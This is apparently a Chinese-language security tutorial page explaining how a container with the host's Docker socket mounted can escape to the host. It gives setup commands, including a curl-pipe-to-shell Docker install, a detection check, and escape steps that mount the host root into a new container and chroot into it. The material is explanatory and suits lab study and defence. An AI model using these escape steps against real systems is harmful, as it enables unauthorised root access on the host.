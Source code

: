 ```yaml
---
title: 挂载 Docker Socket 逃逸


---
```


<center><h1>挂载 Docker Socket 逃逸</h1></center>

---

Docker Socket 用来与守护进程通信即查询信息或者下发命令。

## 搭建

创建一个容器并挂载 /var/run/docker/sock 文件

```plain
docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
```

在容器内安装 Docker 命令行客户端

```plain
docker exec -it with_docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```

## 检测

```plain
ls -lah /var/run/docker.sock
```

如果存在这个文件，说明漏洞可能存在

## 复现

在容器内部创建一个新的容器，并将宿主机目录挂载到新的容器内部

```plain
docker run -it -v /:/host ubuntu /bin/bash
```

<img width="1200" src="/img/1650014060.png">

在新的容器内执行 chroot，将根目录切换到挂载到宿主机的根目录，其实不挂载也行

```plain
chroot /host
```

<Vssue />

<script>
export default {
    mounted () {
      this.$page.lastUpdated = "2022年4月15日"
    }
  }
</script>
